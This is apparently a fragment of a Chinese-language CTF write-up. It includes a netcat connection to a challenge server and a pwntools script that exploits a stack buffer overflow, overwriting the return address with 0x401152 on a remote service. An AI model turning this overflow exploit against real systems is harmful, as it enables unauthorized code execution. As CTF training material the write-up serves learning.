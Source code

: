 看到这玩意附近的16进制值

![image-20200922103258149](wp.assets/image-20200922103258149.png)

## test your nc

```nc 47.93.116.52 20204```

## pwnapwna

 ida打开

![image-20200922164546201](wp.assets/image-20200922164546201.png)

buf长70，读了100，溢出了

![image-20200922164630248](wp.assets/image-20200922164630248.png)

想办法调用这个，位置在0x401152

用gdb看一下要输入的字节数（我已经忘了怎么看了，我现学的）

```python
from pwn import *

p = remote('47.93.116.52',20205)
ret_addr= 0x401152

payload=b'a'*120 + p64(ret_addr)

p.sendline(payload)
print(payload.decode("utf-8"))
p.interactive()

```

## hello32
